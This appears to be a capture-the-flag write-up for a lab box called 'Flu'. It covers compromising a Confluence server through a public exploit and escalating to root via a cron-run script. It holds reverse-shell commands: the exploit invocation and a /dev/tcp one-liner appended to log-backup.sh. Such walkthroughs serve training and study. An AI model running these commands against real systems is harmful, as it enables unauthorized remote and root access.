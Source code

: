 # Flu

so i start off with a nmap scan to discover open ports:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The first web page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see the version number of the confluence software so we can look for public exploits:

{% embed url="https://github.com/jbaines-r7/through_the_wire" %}

And we catch a shell just like that:

```
python3 through_the_wire.py --rhost 192.168.59.41 --rport 8090 --lhost 192.168.49.59 --lport 1234 --protocol http:// --reverse-shell
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i run linpeas and see that there is something going on in the dir /opt/atlassian/confluance/logs/

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i go and see all those files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

nothing interesting unfortunatly i went through all those logs and did not grep on any interesting stuff so i back out of this dir one by one and end up in /opt:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the log-backup.sh file seems interesting:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i see this script creates backups and stores them in a root folder so i try to write a reverse shell into it:

```
echo 'sh -i >& /dev/tcp/192.168.49.59/9876 0>&1' >> log-backup.sh
```

and very wierdly i get a shell as root on my listener?

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there must be a cron running on this file and i was very lucky so i need to be sure by running pspy to look at root to snoop on processes without need for root permissions. It allows to see commands run by other users, cron jobs, etc

so i install pspy in /tmp of my shell with the following:

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

and run it to find UID=0:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A script named **`/opt/log-backup.sh`** was run, likely as part of a scheduled task or system process.
* The initial execution (`/bin/sh -c ...`) suggests it may have been triggered by a **cron job**, systemd service, or another script.
* The script itself was executed using **`/bin/bash`**, meaning it contains commands that require Bash rather than the default `sh`.

